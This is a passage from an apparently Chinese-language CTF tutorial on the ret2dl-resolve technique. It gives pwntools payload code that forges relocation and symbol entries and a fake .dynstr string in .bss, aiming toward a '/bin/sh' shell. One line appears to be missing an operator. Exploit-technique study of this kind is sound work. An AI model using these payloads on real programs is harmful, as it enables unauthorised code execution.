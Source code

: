 ```
payload2 += fake_sym # 伪造sym的位置
payload2 += 'A' * (80 - len(payload2))
payload2 += cmd + '\x00'
payload2 += 'A' * (100 - len(payload2))
r.sendline(payload2)
r.interactive()
```

最终，也是成功打印出了`/bin/sh`，证明我们伪造正确。

![](https://lgyserver.top/wp-content/uploads/2022/04/2-5.png)

## 步骤5：伪造st\_name，从而伪造函数符号

前面提到`st_name`是在`.dynstr`内部的`offset`，因此我们可以通过继续伪造这个`offset`来让连接期间查找函数符号字符串的时候查到我们的`.bss`段。

为了满足`fake_sym`的对齐，我们要在`fake_sym_addr+0x10` 再减去`.dynstr`段的基地址，这样就能够得到我们想要的偏移。而这个偏移就是`st_name`，其他不变，然后我们在对应位置写入字符串“write”，并用`/x00`分割（原理说明里提到过，`.dynstr`段里面是通过`/x00`来区分字符串边界的）

于是我们有了下面的代码：

```
...
cmd = "/bin/sh"
plt_0 = 0x08049020
rel_plt = 0x08048364
reloc_offset = (base_stage + 28) - rel_plt
write_got = elf.got['write']
dynsym = 0x0804820c

dynstr = 0x080482ac
fake_sym_addr = base_stage + 36
align = 0x10 - ((fake_sym_addr - dynsym) & 0xf)
fake_sym_addr = fake_sym_addr + align
index_dynsym = (fake_sym_addr - dynsym) / 0x10
r_info = (index_dynsym << 8)  0x7
fake_reloc = p32(write_got) + p32(r_info)

# 主要是这里修改了st_name的offset，上面一样
st_name = (fake_sym_addr + 0x10) - dynstr # 加0x10因为Elf32_Sym的大小为0x10
fake_sym = p32(st_name) + p32(0) + p32(0) + p32(0x12)

payload2 = 'AAAA'
payload2 += p32(plt_0)
payload2 += p32(reloc_offset)
payload2 += 'AAAA'
payload2 += p32(1)
payload2 += p32(base_stage + 80)
payload2 += p32(len(cmd))
payload2 += fake_reloc # fake_reloc的位置
payload2 += 'B' * align
payload2 += fake_sym # fake_sym的位置
payload2 += "write\x00"# 伪造的dynstr值，.dynstr+st_name就定位到了这里，x00前面讲过是固定格式标识
payload2 += 'A' * (80 - len(payload2))
payload2 += cmd + '\x00'
payload2 += 'A' * (100 - len(payload2))
r.sendline(payload2)
r.interactive()
```
